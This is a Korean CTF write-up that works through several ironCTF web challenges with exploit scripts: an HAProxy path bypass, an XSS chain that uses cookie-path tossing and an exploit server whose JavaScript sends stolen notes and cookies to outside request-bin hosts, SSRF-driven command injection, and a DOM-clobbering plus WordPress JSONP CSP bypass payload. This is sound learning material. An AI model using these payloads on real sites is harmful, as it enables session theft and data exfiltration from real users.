

### Table of contents

<!-- - <a href="#upsolving" style="color: black; text-decoration: underline;text-decoration-style: dotted;">upsolving</a> -->
<!-- - [upsolving](#upsolving) -->
<!-- - [solved](#solved) -->
- <a href="#review" style="color: black; text-decoration: none; text-decoration: underline;">review</a>
- <a href="#solved" style="color: grey; text-decoration: none;">solved</a>
    - <a href="#loan-app" style="color: black; text-decoration: underline;">Loan App</a> (90 solved)
    - <a href="#secret-notes" style="color: black; text-decoration: underline;">Secret Notes</a> (2 solved)
- <a href="#upsolving" style="color: red; text-decoration: none;">upsolving</a>
    - <a href="#b64SiteViewer" style="color: black; text-decoration: underline;">b64SiteViewer</a> (104 solved)
    - <a href="#MovieReviewApp" style="color: black; text-decoration: underline;">MovieReviewApp</a> (36 solved)
    - <a href="#hiring-platform" style="color: black; text-decoration: underline;">Hiring Platform</a> (3 solved)
    - <a href="#beautiful-buttons" style="color: black; text-decoration: underline;">Beautiful Buttons</a> (0 solved)

---

# Review

5월에 있었던 CTF인데 웹 문제가 좋아서 업솔빙해본다.

늦게 시작해서 몇문제만 풀고 잤는데 솔버가 적은 문제를 풀어서 기분이 매우 좋다.

**What I learned** : WordPress Jsonp Endpoint, python 3.9.7 cve, window.name trick, Dom globbering


---

# Solved

## Loan App

**Tag** : *Haproxy bypass*

`flask`로 작정된 간단한 대출 서비스이다.

haproxy를 사용하여 /admin 요청을 막는다.

```
global
    log stdout format raw local0
    maxconn 2000
    user root
    group root
    daemon

defaults
    log global
    option httplog
    timeout client 30s
    timeout server 30s
    timeout connect 30s

frontend http_front
    mode http
    bind :80
    acl is_admin path_beg /admin
    http-request deny if is_admin
    default_backend gunicorn

backend gunicorn
    mode http
    balance roundrobin
    server loanserver loanapp:8000 maxconn 32
```

**Unintend Solution**

prefix가 `/admin`일때만 차단하므로 `//admin`으로 요청을 보내 풀 수 있다.

```python
# ex.py
import requests as req
import uuid
from bs4 import BeautifulSoup

url = "http://loanapp.1nf1n1ty.team"
uid = uuid.uuid4()
# uid = '52068d2c-bc65-466d-8842-5c1f54c10b6f'

s = req.session()

res = s.post(f'{url}/register', data={"username":uid, "password":uid})
res = s.post(f'{url}/login', data={"username":uid, "password":uid})

res = s.post(f'{url}/loan-request', data={"amount":'100', "reason":'100'})
soup = BeautifulSoup(res.text, 'html.parser')
id = soup.find('span', 'loan-id').text.split(':')[1].strip()
print(id)

res = s.post(f'{url}//admin/loan/{id}') # bypass 
print(res.text)

res = s.get(url)
soup = BeautifulSoup(res.text, 'html.parser')
flag = soup.find('p', 'loan-message').text

print(flag)

# ironCTF{L04n_4ppr0v3d_f0r_H4ck3r$!!}
```


**Intended Solution**

[Gunicorn 20.0.4 Request Smuggling](https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/)

[Dreamhack - Self-deception](https://dreamhack.io/wargame/challenges/1130)에서도 사용된 취약점인데 또 언인텐이다.

## Secret Notes

**Tag** : *Html Attribute Injection, Reflected XSS, CSRF bypass*

2 solve인 문제인데 풀어서 기분이 좋다!

flag는 admin의 Note에 있다.

```js
const page = await browser.newPage();
await page.goto(urlToVisit, {
  waitUntil: "networkidle2", // waitUntil: 'networkidle2' -- network가 500ms동안 연결 없을 때까지 기다림
});
await page.goto(`${CONFIG.APPURL}/login`, { waitUntil: "networkidle2" });
// some login process ...
await sleep(1000);
await page.close();
```

`bot.js`의 코드가 신기하게도 임의의 페이지 방문 후 로그인을 해준다.


```py
# app.py
from flask import Flask, render_template, request, redirect, url_for, session, flash
from flask_pymongo import PyMongo
import bcrypt 
from load_dotenv import load_dotenv
import os

load_dotenv()
app = Flask(__name__)
app.secret_key = os.getenv("SECRET_KEY") or "your_secret_key"

app.config["MONGO_URI"] = os.getenv("MONGODB_URL") or "mongodb://localhost:27017/secretnotes"
mongo = PyMongo(app)


@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "POST":
        users = mongo.db.users
        existing_user = users.find_one({"username": request.form["username"]})

        if existing_user is None:
            if len(request.form["password"]) < 8:
                flash("Use loong password....")
            else:
                hashpass = bcrypt.hashpw(
                    request.form["password"].encode("utf-8"), bcrypt.gensalt()
                )
                users.insert_one(
                    {
                        "username": request.form["username"],
                        "password": hashpass,
                        "name": request.form["name"][:31],
                    }
                )
                session["username"] = request.form["username"]
                return redirect(url_for("profile"))
        else:
            flash("Username already exists! Try logging in.")
            return redirect(url_for("register"))

    return render_template("register.html")


@app.route("/login", methods=["GET", "POST"])
def login(): pass # 생략, very safe login with bcrypt
    

@app.route("/profile")
def profile():
    if "username" in session:
        login_user = mongo.db.users.find_one({"username": session["username"]})
        if login_user:
            return render_template("profile.html", name=login_user["name"], username=login_user["username"])

        flash("Invalid username/password combination")
        return redirect(url_for("login"))

    flash("You need to log in first.")
    return redirect(url_for("login"))


@app.route("/create", methods=["GET", "POST"])
def create_notes(): pass # 생략, create post


@app.route("/notes", methods=["GET", "POST"])
def notes(): pass # show every notes

@app.route("/")
def index(): pass # 생략


@app.route("/logout")
def logout(): pass # 생략

if __name__ == "__main__":
    app.run(port=5000)
```

`/login`, `/logout`, `/`에는 별 다른 동작이 없었다.

`/register`에서 회원가입을 하는데 name이 31글자까지만 잘려서 들어간다.

`/profile`에서
```py
if login_user:
    return render_template("profile.html", name=login_user["name"], username=login_user["username"])
```

login_user의 name과 username을 넘겨준다.

profile.html을 보면 name값에 ""(double quote)가 없기 때문에 Html Attribute Injection에 취약하다.

:::note
jinja2는 >, <, &, or "를 이스케이핑한다.
:::

```jinja


Profile


<h1>Welcome, {{ username }}!</h1>
</img>

<a class="btn" href="{{ url_for('create_notes') }}">
            Create Notes
</a>


```

name을 `" onload=alert(1)`로 가입한다면 Reflected XSS가 작동함을 알 수 있다.



31글자라서 너무 익스플로잇하기 어려웠는데 bot의 동작과 연결해서 생각해야 한다.

window.open()을 통해 새로운 윈도우를 열 수 있는데 첫번째 인자는 url, 두번째 인자는 window.name이다.

```js
// attacker's page
window.open('/path', 'payload')

// name
1 onload=eval(window.name)
```

그리고 CSRF가 걸려있지 않다.

즉, 다른 도메인(attacker's page)에서도 로그인할 수 있다.

**시나리오** 

1. bot이 attacker계정으로 로그인

2. ???

3. bot이 admin 계정으로 로그인

---

풀기 위해서는 cookie의 구현을 알아야하는데

`document.cookie="key=name;domain=domain;path=/path";` 과 같이 설정할 수 있다.

만약 /A에 내 쿠키를 설정하면 /B에서는 쿠키가 적용되지 않고, /의 쿠키를 적용한다.

(그리고 우선순위는 자세할수록 높다.)

**최종 시나리오**

1. bot이 attacker의 계정으로 로그인, path=/profile

2. bot이 admin계정으로 로그인 --> /profile로 리다이렉트

3. Reflected XSS --> /notes에서 admin의 note를 읽어온다.

```py
# ex.py
import requests as req
import uuid

url = "https://secret-notes.1nf1n1ty.team"
uid = uuid.uuid4().hex
print(uid)

s = req.session()

res = s.post(f'{url}/register', data={"username":uid, "password":uid, "name":'1 onload=eval(window.name)'})
print(res.text)
res = s.post(f'{url}/login', data={"username":uid, "password":uid,})
print(res.text)

# 47005cce73e9469294a40fda0b318bcf
# session=eyJ1c2VybmFtZSI6IjQ3MDA1Y2NlNzNlOTQ2OTI5NGE0MGZkYTBiMzE4YmNmIn0.ZwGjeQ.0eyulCrarNn7mWCNTv1v62QwGU0
# ironCTF{CSRF_SELFX55_C00ki3_t05s1ng_co0kie_p4th_fL4g}
```


```py
# exploit_server.py
from flask import Flask, request
from flask_cors import CORS

app = Flask(__name__)
CORS(app)


@app.route('/')
def index():
    return '''<script>
window.name=`fetch('/notes').then(res=>res.text()).then(res=>fetch('https://voqudez.request.dreamhack.games/'+document.cookie,{method:'POST',body:JSON.stringify({a:res})}));`;
const leak = window.open("/leak",`document.cookie="session=eyJ1c2VybmFtZSI6IjQ3MDA1Y2NlNzNlOTQ2OTI5NGE0MGZkYTBiMzE4YmNmIn0.ZwGjeQ.0eyulCrarNn7mWCNTv1v62QwGU0;domain=secret-notes.1nf1n1ty.team;path=/profile";window.close()`);
</script>'''

@app.route('/leak')
def leak():
    return '''<script>function sleep(ms) {
  return new Promise((r) => setTimeout(r, ms));
}
function func(doc) {
  document.cookie;
  fetch("https://pfpcgiu.request.dreamhack.games/" + doc.cookie);
}
async function leak() {
  await sleep(10);
  
  const form = document.createElement("form");
  form.setAttribute("method", "POST");
  form.setAttribute("action", "https://secret-notes.1nf1n1ty.team/login");

  const usernameInput = document.createElement("input");
  usernameInput.setAttribute("type", "text");
  usernameInput.setAttribute("name", "username");
  usernameInput.required = true;
  usernameInput.value = "47005cce73e9469294a40fda0b318bcf";
  form.appendChild(usernameInput);

  const passwordInput = document.createElement("input");
  passwordInput.setAttribute("type", "password");
  passwordInput.setAttribute("name", "password");
  passwordInput.value = "47005cce73e9469294a40fda0b318bcf";
  form.appendChild(passwordInput);

  const submitButton = document.createElement("button");
  submitButton.setAttribute("type", "submit");
  form.appendChild(submitButton);

  document.body.appendChild(form);
  form.submit();
}
leak();</script>'''


app.run(host="0.0.0.0", port=80)
```

[Dreamhack - web-dreamshop](https://dreamhack.io/wargame/challenges/108)의 언인텐 아이디어와 비슷하다.

---

# Upsolving

---


## b64SiteViewer

**Tag** : blackbox, ssrf, misc

```py
# app.py
from flask import render_template,render_template_string,Flask,request
from urllib.parse import urlparse
import urllib.request
import random
import os
import subprocess
import base64
app=Flask(__name__)
app.secret_key=os.urandom(16)

@app.route('/',methods=['GET','POST'])
def home(): pass # 쉬우니까 생략


@app.route('/admin')
def admin():
    remote_addr = request.remote_addr
    
    if remote_addr in ['127.0.0.1', 'localhost']:
        cmd=request.args.get('cmd','id')
        cmd_blacklist=['REDACTED']
        if "'" in cmd or '"' in cmd:
            return render_template_string('Command blocked')
        for i in cmd_blacklist:
            if i in cmd:
                return render_template_string('Command blocked')
        print(f"Executing: {cmd}")
        res= subprocess.run(cmd, shell=True, capture_output=True, text=True)
        return res.stdout
    else:
        return render_template_string("Don't hack me")

if __name__=="__main__":
    app.run(host='0.0.0.0',port='5000')
```

`/`에서의 블랙리스트는 `http://0:5000/`으로 우회할 수 있다.

`/admin`에서는 노가다하면 된다.

블랙박스 문제이기 때문에 라업을 이거는 가져왔다.

**Unintend Solution**

```py
from requests import *
from base64 import b64decode
from urllib.parse import quote

url = "https://b64siteviewer.1nf1n1ty.team"

def send(payload):
    res = post(url, data={"url":"http://0:5000/admin?cmd=" + quote(payload)})
    data = eval(res.text.split(':')[1].strip())
    data = b64decode(data).decode()
    return data

# print(send('{tail,..${HOME:0:1}f???.txt}'))
print(send('{tail *'))
# ironCTF{y0u4r3r0ck1n6k33ph4ck1n6}
```

---

**Intended Solution**

```docker
FROM python:3.9.7

COPY /challenge /chall

WORKDIR /chall

RUN mv flag.sh /usr/local/bin/flag

RUN pip install -r requirements.txt

ENV flag ironCTF{redacted}

EXPOSE 5000

CMD ["python","-m","app"]
```

docker file에서 python:3.9.7을 사용한다.

[CVE-2023-24329](https://nvd.nist.gov/vuln/detail/CVE-2023-24329)

url이 whitespace로 시작해도 제대로 요청이 된다.

`flag.sh`이 `/usr/local/bin`에 있기 때문에 스크립트를 실행할 수 있다.

```sh
#!/bin/bash

inp=$1

if [[ $flag == $inp ]]
then
	echo "This is the flag"
else
	echo "no"
fi
```

약한 비교(weak comparison, ==)를 수행하므로 와일드 카드(*)를 사용하여 한글자씩 구할 수 있다.

---

## MovieReviewApp

**Tag** : github exposure, Command Injection

`https://movie-review.1nf1n1ty.team`에 들어가면 디렉토리 리스팅을 해주는데 .git 폴더가 있다.

`git-dumper`또는 `wget의 mirror`를 사용하여 .git 폴더 밑의 내용들을 가져올 수 있다.

이후 생략 ..

[solution](https://h4ck.run/ctf/ironctf24)

---

## Hiring Platform

**Tags** : Dom globbering, Jsonp

```py
# app.py
from flask import Flask, render_template, request, redirect, url_for, session
from pymongo import MongoClient
from werkzeug.security import generate_password_hash, check_password_hash
from load_dotenv import load_dotenv
import os
from base64 import b64decode, b64encode
from uuid import uuid4

load_dotenv()
app = Flask(__name__)
app.secret_key = os.getenv("SECRET_KEY") or "your_secret_key_here"
FLAG = os.getenv("FLAG") or "ironCTF{FAKE_FLAG_FOR_TESTING}"
INVITE_KEY = os.getenv("INVITE_KEY") or "SAMPLE_INVITE_KEY"
# MongoDB connection

mongo_url=os.getenv("MONGODB_URL") or 'mongodb://localhost:27017/'
client = MongoClient(mongo_url)
db = client['database']

# Users collection
users_collection = db['users']
portfolio_collection = db['portfolio']  
selections_collection = db['selection']

@app.after_request
def set_csp_headers(response):
    response.headers['Content-Security-Policy'] = "default-src 'none'; script-src 'self' ; style-src 'self' 'unsafe-inline' ; img-src *;"
    return response
    
# Routes
@app.route('/') 
def home():
    if 'user' in session:
        return redirect(url_for("profile"))
    return render_template('index.html', not_logged_in=True)

@app.route('/register', methods=['GET', 'POST'])
def register():
    if 'user' in session:
        return redirect(url_for('profile'))
    not_logged_in=True
    if request.method == 'POST':
        name = request.form['name']
        email = request.form['email']
        password = request.form['password']
        interview_code = request.form.get('interview_code')
        invite_key = request.form.get('invite_code')
        
        # 생략, hashing and check alread exist email

        # Create a new user document
        user_data = {
            'name': name,
            'email': email,
            'hash_password': hashed_password,
        }

        # Add interview code if provided
        if interview_code and INVITE_KEY == invite_key :
            user_data['role'] = 'recruiter'
            user_data["interview_code"] = interview_code
        else:
            user_data['role'] = 'human'
            user_data["interview_code"] = "NONE"

        # Insert the user into the database
        users_collection.insert_one(user_data)

        return redirect(url_for('login'))

    return render_template('register.html', not_logged_in=not_logged_in)

@app.route('/login', methods=['GET', 'POST'])
def login(): pass # 생략

@app.route('/profile')
def profile():
    if 'user' in session:
        email = session['user']
        user = users_collection.find_one({'email': email})
        if user:
            portfolios = list(portfolio_collection.find({'email': email}))
            return render_template('profile.html', user=user, portfolios=portfolios)
        else:
            return redirect(url_for('register'))
    else:
        return redirect(url_for('login'))

@app.route('/profile/shortlisted')
def shortlisted():
    if 'user' in session:
        email = session['user']
        user = users_collection.find_one({'email': email})
        if user:
            offers = list(selections_collection.find({'email': email}))
            return render_template('shortlisted.html', user=user, offers=offers)
        else:
            return redirect(url_for('register'))
    else:
        return redirect(url_for('login'))


@app.route('/portfolio/create', methods=['GET', 'POST'])
def create_portfolio():
    if 'user' in session:
        email = session['user']
        user = users_collection.find_one({'email': email})
        if user and user.get('role') == 'human':
            if request.method == 'POST':
                session_email = session['user']
                user = users_collection.find_one({'email': session_email})
                if user:
                    title = request.form.get('title')
                    portfolio_content = request.form.get('portfolio_content')
                    portfolio_collection.insert_one({
                        'portfolio_id':uuid4().hex,
                        'email': session_email,
                        'title': title,
                        'portfolio_content': b64encode(portfolio_content.encode("utf-8")).decode("utf-8")
                    })
                    return redirect(url_for('profile'))
    # if문 길어서 생략

@app.route('/portfolio/<portfolio_id>/view', methods=['GET', 'POST'])
def view_portfolio(portfolio_id):
    portfolio = list(portfolio_collection.find({'portfolio_id': portfolio_id}))
    if len(portfolio) >0:
        portfolio = portfolio[0]
        return render_template('view_portfolio.html', user=portfolio["email"], title=portfolio["title"], portfolio_content=portfolio["portfolio_content"] )

@app.route('/recruiter/select', methods=['POST'])
def select_human():
    print(session)
    if 'user' in session:
        try:
            user_email = b64decode(request.form["email"]).decode()
        except: 
            return "ERROR decoding email..."
        admin_user = users_collection.find_one({'email': session["user"]})
        if admin_user and admin_user['role'] == 'recruiter':
            if request.method == "POST":
                if request.form.get("remark") == "SELECT NOW!!":
                    selections_collection.insert_one({
                    'email': user_email,
                    'interview_link': FLAG
                    })
                else:
                    selections_collection.insert_one({
                    'email': user_email,
                    'interview_link': admin_user["interview_code"]
                    })
                return "Success"
        else:
            return "Access denied. Only recruiters can access this page."
    else:
        return redirect(url_for('login'))


@app.route('/logout')
def logout(): pass # 생략

if __name__ == '__main__':
    app.run(port=5050)
```

```py
response.headers['Content-Security-Policy'] = "default-src 'none'; script-src 'self' ; style-src 'self' 'unsafe-inline' ; img-src *;"
```

csp 헤더는 다음과 같이 걸려있다.

`/portfolio/create`에서 자신의 포트폴리오(title, content)를 만드는데 content를 base64 encoding해서 저장한다.

`/portfolio/<portfolio_id>/view`에서 조회할 수 있다.

`/recruiter/select`에 bot이 방문하면 플래그를 주므로 방문하게 해야한다.


```py
if request.form.get("remark") == "SELECT NOW!!":
    selections_collection.insert_one({
    'email': user_email,
    'interview_link': FLAG
    })
```

`templates/view_portfolio.html`을 보면 

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>
      
        {{ title }}
      
    </title>
    <link rel="stylesheet" href="{{ url_for('static', filename = 'styles.css') }}" />
  </head>
  <body>
    <div class="portfolio-block nodisplay">{{ portfolio_content }}</div>
    <span id="email" style="display: none;">{{ user }}</span>
    <div class="selectionForm"></div>
    <script src="{{ url_for('static', filename = 'recruiter.js') }}"></script>
  </body>
</html>
```

`static/recruiter.js`를 불러온다.


```js
// var PRODUCTION = true
let portfolio = document.querySelector(".portfolio-block");
portfolio.innerHTML = atob(portfolio.innerHTML)
portfolio.classList.remove("nodisplay");
portfolio = document.querySelector(".portfolio-block");
portfolio.innerHTML = portfolio.innerHTML.replace(/<script\b[^>]*><\/script>/gi, "")
if (PRODUCTION) {
    const formContainer = document.querySelector(".selectionForm");
    const user = document.querySelector("#email").innerHTML
    formContainer.innerHTML = `<form method="post" action="/recruiter/select" id="select_humans">
            <input type="text" name="email" value="${btoa(user)}" hidden>
            <input type="submit" value="Call for interview">
        </form>`
}
```

portfolio.innerHTML을 가져오므로 html을 주입할 수 있다.

csp default header가 none이라서 평범한 xss는 불가능하다.

PRODUCTION은 Dom globbering을 사용한다.

```html
<a id="PRODUCTION"></a>
```

어쩐지 업솔빙을 못했는데 라업을 보니까 `/blog`라는 엔드포인트가 있는데 WordPress로 연결된다.

WordPress에는 `/blog/wp-json/wp/v2/users/1?_jsonp=alert`라는 웰노운 jsonp 엔드포인트가 있다고 한다.

```html
<!-- payload.html -->
<a id="PRODUCTION"></a>
<input type="text" name="remark" value="SELECT NOW!!" form="select_humans">
<iframe srcdoc="<script src='/blog/wp-json/wp/v2/users/1?_jsonp=window.parent.document.body.firstElementChild.nextElementSibling.nextElementSibling.firstElementChild.submit'>

</script>"></iframe>
```

---

## Beautiful Buttons	

TODO